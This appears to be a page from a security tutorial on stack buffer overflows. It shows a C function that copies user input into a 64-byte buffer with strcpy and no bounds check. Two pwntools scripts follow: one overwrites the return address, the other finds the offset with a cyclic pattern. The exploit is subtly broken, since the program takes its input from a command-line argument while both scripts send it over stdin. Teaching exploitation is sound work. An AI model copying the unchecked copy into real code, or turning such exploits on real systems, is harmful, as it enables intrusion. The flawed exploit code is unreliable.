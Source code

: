 
## Memory Corruption Vulnerabilities

### Buffer Overflow

**Stack buffer overflow:**

```c
// Vulnerable code
void vulnerable_function(char *user_input) {
    char buffer[64];
    strcpy(buffer, user_input);  // No bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char **argv) {
    if (argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
```

**Exploitation:**

```python
from pwn import *

# Find offset to return address
offset = 72  # Determined via pattern_create/pattern_offset

# Craft exploit
payload = b"A" * offset          # Fill buffer + saved RBP
payload += p64(0x401234)         # Overwrite return address

# Send payload
p = process("./vulnerable_binary")
p.sendline(payload)
p.interactive()
```

**Finding offset with pwntools:**

```python
from pwn import *

# Generate cyclic pattern
pattern = cyclic(200)

# Run program
p = process("./vulnerable_binary")
p.sendline(pattern)
p.wait()

# Get core dump
core = p.corefile

# Find offset
offset = cyclic_find(core.read(core.rsp, 8))
print(f"Offset: {offset}")
```

